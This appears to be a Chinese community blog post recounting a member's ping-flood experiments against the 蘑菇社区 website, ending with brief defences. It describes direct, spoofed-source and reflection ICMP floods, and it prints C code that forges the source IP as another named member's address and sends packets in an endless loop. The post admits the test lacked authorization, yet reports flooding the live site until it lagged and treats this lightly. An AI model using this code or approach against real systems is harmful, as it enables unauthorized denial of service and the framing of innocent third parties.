 大家好，我是**陌溪**。

最近群里小伙伴学习了一些安全相关的知识，准备拿着**蘑菇社区**来测试，差点把蘑菇搞宕机了，下面让我们一起看看群友 **W** 对**蘑菇**做了些什么吧~

因为没有得到**陌溪**授权，所以无法对蘑菇博客进行渗透测试，毕竟 **W** 是**遵纪守法**的。

这时群友提出了通过 **ping** 的方式来进行攻击，而 **W** 恰好是一个修网的网工转的安全，所以简单跟大家聊一下这种攻击方法。

一般，比较常见的攻击手段是 **ping** 泛洪攻击，也叫 **ICMP** 洪水攻击是 **DOS** 攻击的一种。其目的是耗尽受害者的带宽，以至于合法的流量不能通过。攻击者向受害者发送许多很大的 **ping** 数据包，消耗受害者网络连接的带宽。

**ping** 命令的简单了解：**echo request** 回响请求（Type=8 code=0）和 **echo reply** 回响应答（Type=0 code=0）。

下面举个栗子：

当我向蘑菇社区发送一个 **Type=8** 的 **ICMP** 报文，蘑菇社区会返回一个 **Type=0** 的 **ICMP** 报文来证明自己的存在。

小白常用的方式是直接使用 **DOS** 窗口进行 **ping x.x.x.x -l 65500 -t**，此时我们要知道 **ping** 使用的是 **ECHO** 应答，返回的速度很慢 **1-5包/秒** ；

但是 **ICMP** 是 **SOCK\_RAW** 产生的原始报文，在这部分不会有延迟问题，所以延迟的主要来源是计算 **ECHO** 时间.

经 **W** 不辞辛苦的查阅及抓包分析发现是 **icmp.dll** 提供的 **IcmpSendEcho** 这个 **API** 的问题。

**测试阶段**
-------

前提：足够快的数据包发送速度和足够的带宽，下面我们来讲解一下各个攻击方式介绍：

### 直接洪水攻击 >>W采用的方式

 需要一台比蘑菇社区服务器带宽更高的主机，采用多线程的方法一次性发送多个 **ICMP** 请求报文，让目的主机忙于处理大量这些报文而造成速度缓慢甚至宕机。

缺点：陌溪发现了无聊群友的企图，受到攻击后根据 **ICMP** 包的IP地址而屏蔽掉攻击源，使得无聊群友的快乐消失。

### 伪IP攻击

见名知意，就是伪装成群里另外一个小伙伴：**遇见geigei** 的 **ip** 地址，进行挑拨离间。

**图：W主机>>>>>>>>>>蘑菇博客>>>>>>>>>>>>遇见geigei**

           ping伪装ip为x.x.x.x                       pong  pong将报文发送给遇见geigei

### 反射攻击

让一群背锅侠误以为蘑菇社区在向他们发送 **ICMP** 请求包，然后背锅侠向蘑菇社区发送 **ICMP** 应答包，造成来自四面八方的洪水淹没蘑菇社区的现象。这种攻击非常隐蔽，因为受害主机很难查出攻击源是谁。

 **图：W主机>>>>>>>>>>遇见geigei>>>>>>>>>>>>蘑菇社区（截获攻击者IP=遇见geigei）**

准备工具：此处 **W** 利用的公司的内部工具，因为保密协议原因所以向大家展示了其他人的攻击工具，为了确保蘑菇社区的安全性，工具的最终架构线程发包部分没有挂上来，还请大家谅解

    void DoS_icmp_pack(char* packet)
    {
        struct ip* ip_hdr = (struct ip*)packet;
        struct icmp* icmp_hdr = (struct icmp*)(packet + sizeof(struct ip));
    
        ip_hdr->ip_v = 4;
        ip_hdr->ip_hl = 5;
        ip_hdr->ip_tos = 0;
        ip_hdr->ip_len = htons(ICMP_PACKET_SIZE);
        ip_hdr->ip_id = htons(getpid());
        ip_hdr->ip_off = 0;
        ip_hdr->ip_ttl = 64;
        ip_hdr->ip_p = PROTO_ICMP;
        ip_hdr->ip_sum = 0;
        ip_hdr->ip_src.s_addr = inet_addr(FAKE_IP);; //伪装为遇见geigei的ip地址
        ip_hdr->ip_dst.s_addr = dest;  //填入蘑菇社区主机地址
    
        icmp_hdr->icmp_type = ICMP_ECHO;
        icmp_hdr->icmp_code = 0;
        icmp_hdr->icmp_cksum = htons(~(ICMP_ECHO << 8));
    }
    void Dos_Attack()
    {
        char* packet = (char*)malloc(ICMP_PACKET_SIZE);
        memset(packet, 0, ICMP_PACKET_SIZE);
        struct sockaddr_in to;
        DoS_icmp_pack(packet);
    
        to.sin_family = AF_INET;
        to.sin_addr.s_addr = dest;
        to.sin_port = htons(0);
        while(alive)  
        {
            sendto(rawsock, packet, ICMP_PACKET_SIZE, 0, (struct sockaddr*)&to, sizeof(struct sockaddr));        
        }
    
        free(packet); 
    }
    void Dos_Sig()
    {
        alive = 0;
        printf("stop DoS Attack!\n");
    }

##  测试结果

因为W测试的时候是在公司的原因，所以用了W手机的个人热点进行测试，当峰值达到3.3MB时W的电脑进入蘑菇社区时开始出现宕机卡顿现象

此时有蘑菇和W电脑自身问题的两种可能性， 所以需要陌溪授权后利用足够的带宽重新测试。

预防手段：

为了防止无聊群友的出现，所以可以采取限制

###  **方法一：限制**

            设置安全策略，在无聊群友多次ping之后，限制大小与次数

### 方法二：禁ping

            部分插件与监测功能会受到影响，所以此处不建议这种方法

### 方法三：过滤

            通过策略来过滤IP进行防范，此方法在无聊群友不伪装IP时非常有效

### 方法四：等等

因为防范的方法太多，而且W也要去学习java了，所以不逐个列举了

最后吐槽一下点我看图，用户在无法访问蘑菇社区时，看到一个张牙舞爪的七旬老伯跳舞心情又要-100，此处W建议将其换成年轻靓丽的妹子。